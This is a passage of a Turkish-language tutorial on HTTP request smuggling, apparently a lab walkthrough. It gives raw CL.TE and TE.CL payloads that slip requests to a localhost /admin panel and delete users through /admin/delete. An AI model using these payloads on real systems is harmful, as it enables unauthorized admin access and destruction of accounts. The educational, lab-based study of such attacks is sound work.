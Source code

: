           0

          GET /admin HTTP/1.1
          Host: localhost
          X-Ignore: X

Bu isteği gönderdiğimizde de hata alacağız. Bunun sebebi, isteklerdeki host bilgileri birbiri ile çakışıyor olması.

          POST / HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 116
          Transfer-Encoding: chunked

          0

          GET /admin HTTP/1.1
          Host: localhost
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 10

          x=


Ve panele ulaştık. Şimdi biraz brute-force saldırısı veya "iyi" tahminlerle kullanıcıyı silelim.


          POST /home HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 139
          Transfer-Encoding: chunked

          0

          GET /admin/delete?username=fatih HTTP/1.1
          Host: localhost
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 10

          x=

Başarı ile kullanıcımızı sildik. Bu örnek bir CL.TE örneğiydi. TE.CL'de ise aşağıdaki gibi bir örnek kullanılabilir.

          POST / HTTP/1.1
          Host: vulnerable-website.com
          Content-length: 4
          Transfer-Encoding: chunked

          87
          GET /admin/delete?username=carlos HTTP/1.1
          Host: localhost
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 15

          x=1
          0

